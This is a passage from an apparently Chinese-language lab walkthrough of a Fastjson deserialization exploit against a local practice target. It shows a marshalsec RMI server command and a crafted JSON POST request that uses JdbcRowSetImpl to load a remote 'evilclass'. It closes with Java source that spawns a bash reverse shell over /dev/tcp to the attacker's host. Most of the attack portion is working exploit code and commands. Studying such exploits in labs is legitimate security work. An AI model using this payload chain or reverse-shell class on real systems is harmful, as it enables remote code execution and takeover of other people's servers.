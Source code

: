 ```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.112.146/#evilclass" 9999
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUaibINy8ljP9jFEvQIJsbX72ib3qZquibqIs2iaibNrArSa1JnsqEsWN8oGOQ/640?wx_fmt=jpeg)

**6）BurpSuite 抓包改包**

```
POST / HTTP/1.1
Host: 192.168.112.141:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 0

{
"b":{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"rmi://192.168.112.146:9999/evilclass",
"autoCommit":true
}
}
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUabUhSOE1I6QdaKqCyYhfIRURrtcntibFCAv8iaFZdwsBHbmbSeqY1enDw/640?wx_fmt=jpeg)

已经发送了 evilclass 文件

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUavcp9R6mL11Nk86jfLhkw9KEJJicHbWha1TCIl3da2DTkFHqXoONcInw/640?wx_fmt=jpeg)

前往靶场容器内，成功执行命令创建 test 文件

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUaWv28W475ribkLNs1AMBjJicghz1GG1zkKzg9Rw2VEjaHPBGHCFubgicnw/640?wx_fmt=jpeg)

**0x04 Linux 反弹 shell**

将上面的 java 代码中的执行命令改为反弹 shell 的命令，其余步骤相似

```
import java.lang.Runtime;
import java.lang.Process;
public class evilclass{
static {
try {
Runtime rt = Runtime.getRuntime();
String[] commands = {"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.112.146/9001 0>&1"};
Process pc = rt.exec(commands);
pc.waitFor();
} catch (Exception e) {
// do nothing
}
}
}
```
